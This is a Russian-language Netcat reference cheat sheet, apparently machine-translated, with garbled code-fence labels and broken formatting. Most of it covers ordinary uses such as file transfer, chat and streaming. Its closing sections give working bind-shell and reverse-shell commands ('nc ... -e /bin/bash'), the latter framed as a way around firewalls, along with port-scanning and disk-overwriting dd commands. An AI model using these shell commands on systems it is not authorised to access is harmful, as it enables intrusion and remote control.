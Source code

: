 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
фон: bg-blue-600
теги:
    - ncat
    - nc
    - коммунальное хозяйство
    - сеть
    - трафик
категории:
    - Команда Linux
введение:  В этой шпаргалке приведены различные способы использования Netcat в Linux и Unix.
плагины:
    - copyCode
---
```


Начало работы {.cols-5}
---------------

### Использование {.col-span-2}

Подключение к хосту, расположенному в любом месте

Шелл-скрипт
$ nc [options] [host] [port]
```

Прослушивание входящих соединений
```Шелл-скрипт
$ nc -lp port [host] [port]
```



### Примеры опций {.col-span-3 .row-span-2}

| Опция | Описание | Пример |
|--------|----------------------------|------------------------------------------|
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Сканирование порта для хоста или IP-адреса |
| `-v` | nc -zv 192.168.1.9 1-100 | Предоставить подробный вывод |
| `-n` | nc -zn 192.168.1.9 1-100 | Быстрое сканирование путем отключения разрешения DNS |
| `-l` | nc -lp 8000 | Режим прослушивания TCP _(для входящих соединений)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Определить значение тайм-аута |
| `-k` | nc -kl 8000 | Продолжать прослушивание после разъединения |
| `-u` | nc -u 192.168.1.9 8000 | Использовать UDP вместо TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Клиент продолжает работать после EOF |
| `-4` | nc -4 -l 8000 | Только IPv4 |
| `-6` | nc -6 -l 8000 | Только IPv6 |


### Чат клиент-сервер {.col-span-2}
Сервер (192.168.1.9)
Шелл-скрипт
$ nc -lv 8000
```

Клиент
```Шелл-скрипт
$ nc 192.168.1.9 8000
```



Примеры Netcat
--------

### Захват баннера
Шелл-скрипт
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
или
``хилый скрипт
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Сканирование портов

Сканирование портов с 21 по 25
```Шелл-скрипт
$ nc -zvn 192.168.1.1 21-25
```

Сканирование портов 22, 3306 и 8080
```Шелл-скрипт
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Прокси и проброс портов
``` Шелл-скрипт
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
или
```шелл-скрипт
$ nc -l 8001 | nc 127.0.0.1 8000
```
Создание туннеля от одного локального порта к другому



### Скачать файл

Сервер (192.168.1.9)
``Сценарий командной строки
$ nc -lv 8000 < file.txt
```

Клиент
сценарий
$ nc -nv 192.168.1.9 8000 > file.txt
```

Предположим, что необходимо передать файл "file.txt" с сервера A на клиент B.


### Загрузка файла

Сервер (192.168.1.9)
``Сценарий командной строки
$ nc -lv 8000 > file.txt
```

Клиент
``Основной сценарий
$ nc 192.168.1.9 8000 < file.txt
```

Предположим, что необходимо передать файл "file.txt" с клиента B на сервер A:


### Передача каталога

Сервер (192.168.1.9)
``Основной сценарий
$ tar -cvf - имя_директории | nc -l 8000
```

Клиент
``Шелл-скрипт
$ nc -n 192.168.1.9 8000 | tar -xvf -.
```

Предположим, что необходимо передать по сети каталог из точки A в точку B.


### Зашифровать передачу {.col-span-2}


Сервер (192.168.1.9)
``Шелевой сценарий
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Клиент
```Шелл-скрипт
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Шифрование данных перед передачей по сети



### Клоны

Сервер (192.168.1.9)
``Сценарий командной строки
$ dd if=/dev/sda | nc -l 8000
```

Клиент
``Шелл-скрипт
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Клонирование ПК с ОС linux очень просто. Предположим, что ваш системный диск - /dev/sda



### Видеопоток

Сервер (192.168.1.9)
командный сценарий
$ cat video.avi | nc -l 8000
```

Клиент
```Шелл-скрипт {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -.
```

Потоковое видео с помощью netcat




### Удаленная оболочка

Сервер (192.168.1.9)
``Сценарий оболочки
$ nc -lv 8000 -e /bin/bash
```

Клиент
``Шелл-скрипт
$ nc 192.168.1.9 8000
```

Мы использовали удаленную оболочку с помощью telnet и ssh, но что делать, если они не установлены и у нас нет прав на их установку, тогда мы можем создать удаленную оболочку и с помощью netcat.



### Обратная оболочка

Сервер (192.168.1.9)
``Сценарий оболочки
$ nc -lv 8000
```

Клиент
```Шелл-скрипт
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Обратные оболочки часто используются для обхода ограничений брандмауэра, например, блокировки входящих соединений

